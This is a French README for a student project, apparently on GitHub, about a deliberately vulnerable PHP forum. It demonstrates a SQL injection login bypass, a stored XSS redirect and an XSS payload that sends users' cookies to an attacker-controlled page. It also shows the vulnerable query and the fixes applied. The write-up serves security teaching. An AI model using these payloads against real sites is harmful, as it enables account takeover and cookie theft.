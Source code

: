 # Projet-web-secu

Dans le cadre de ce projet, nous sommes partie d’un site web que j’ai développée en PHP sur laquelle j’ai exploré les possibles failles qu’elle pourrait contenir.

L’application est un forum de discussion informatique. qui offre la possibilité de s’authentifier, de soumettre des sujets et desmessages.

**Outils**: PHP, HTML, CSS, MySQL, PHPMYADMIN

## Mise en évidence d’une faille d’injection SQL

Pour contribuer au forum c’est-à-dire réponndre créer un sujet, ecrire un message, l’on a besoin de se connecter avec un pseudo et un mot de mot de passe. 
Ici nous verons que même un utilisateur qui n’a pas de compte peut se connecter fraduleusement et causer des degâts  avec de l’injection SQL dans la page de login.

Dans la page de connexion nous rentrons le pseudo d’un utilisateur existant toto par exemple et password qui n’est pas celle de l’utilisateur toto: " or ""="
et on vois que nous sommes connectés comme etabt l’utilisateur toto. Ce qui nous permet de créer des sujets en tant que utilisateur toto

*image*

## Solution

Dans la version sécurisé du site (http://localhost/myforumsecu) nous avons utliser les réquêtes préparées dans le code qui êrmet de se connecter (`loger.php`) pour palier ce problème.
l’ancienne ligne:
`$result =$id_con->query('SELECT * FROM users WHERE id_user="'.$pseudo.'" AND passwd="'.$pass.'" ') ;`
devient:

`$result = $id_con->prepare("SELECT * FROM users where id_user = :pseudo AND passwd = :pass");`
`$result -> execute(array('pseudo' => $pseudo, 'pass' => $pass));`

## Mise en évidence de la faille XSS

Dans la version non sécurisée du site (http://localhost/myforum) mettons dans le champs de commentaire le message `<u>hello attaquant</u>`

On constate que la mise en forme html est faite. On se retrouve donc avec hello attaquant. Le plus gros problème est que cette faille est persistante, car inscrite dans la base de données.

Ayant connaissance de cette faille, l'attaquant pourrait casser la structure du site. Comme nous le montrerons ici en injectant du code javascript faisant une redirection vers le site google.com.

`<script>document.location="https://www.google.com"</script>`

On constate qu’à chaque ouverture du sujet contenant le code injecté il y a une redirection automatique vers google.com. Ce qui est inquiétant c’est que cela reste permanent.

## Exploitation de la faille

Essayons d’exploiter cette faille pour voler des cookies qui dans un cas précis pourrait permettre à un attaquant de s'attribuer des rôles plus élevés que prévu.

Ici nous allons écrire un code PHP (https://github.com/ang67/siteattaquant/index.php) permettant de récupérer les cookies des utilisateurs.
Ce code se trouve peut se trouver sur un autre serveur distant (celui de l’attaquant par exemple https://github.com/ang67/Siteattaquant ). Dans ce code on récupère les cookies, puis on les stocke et enfin, on redirige l’utilisateur vers l’accueil comme si rien ne s’était passé. Pour notre exemple le site a décidé de sauvegarder les mots de passe et login pour permettre de se souvenir de l’utilisateur lors d’une nouvelle connection.

Maintenant l’attainjectons un code javascript dans un message ou dans un sujet qui redirige vers le code PHP malveillant.

`<script>document.location="http://localhost/siteattaquant?cookie="+document.cookie;</script>`

*image*

Maintenant l’attaquant a réussi son coup et s’attend à recoter le buttin. Si un l’utilisateur se connect en accèptant que le site se souvienne de lui, ou pour d’autres cookies par exemple, l’attaquant récupère alors toutes ces données sensibles dans un repertoire (`C:\wamp64\www\siteAttaquant\stolen_data.txt`) lors de sa visite sur la page contenant le code injecté.

*image*
*image*
*image*

## Solution

 Dans la version sécurisée du site (http://localhost/myforumsecu) nous avons

  - protégé les cookies en ajoutant l'attribut ***HttpOnly***
  - utilisé la méthode ***htmlspecialchars*** avec le flag *ENT_IGNORE* pour remplacer tous les caractères HTML. (https://www.php.net/manual/fr/function.htmlspecialchars.php)




